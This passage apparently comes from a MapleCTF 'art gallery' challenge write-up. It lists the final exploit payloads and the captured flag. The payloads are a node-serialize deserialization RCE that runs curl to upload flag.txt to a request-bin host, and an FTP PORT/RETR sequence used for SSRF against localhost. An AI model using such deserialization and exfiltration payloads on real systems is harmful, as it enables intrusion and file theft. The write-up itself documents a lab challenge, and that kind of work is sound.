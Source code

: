 Final payloads:

```
Uploaded file:

set image_<art token> "{\"rce\":\"_$$ND_FUNC$$_function (){require('child_process').exec('curl -F \\\"file=@/usr/src/app/flag.txt\\\" <request bin>', function(error, stdout, stderr) { console.log(stdout) });}()\"}"


FTP payload:

USER a
PASS a
PORT 127,0,0,1,24,235
RETR <uploaded_filename>
```

DNS records:

![](/assets/images/ctf/maplectf/art_gallery/dns.png)  

Manually performing the plan with the payloads yields the flag:

```
maple{M4N_I_L0V3_SSRFz_1N_My_SSRF5_In_my_556Fs}
```

Special thanks again to downgrade, Em0n, gapipro and redemer.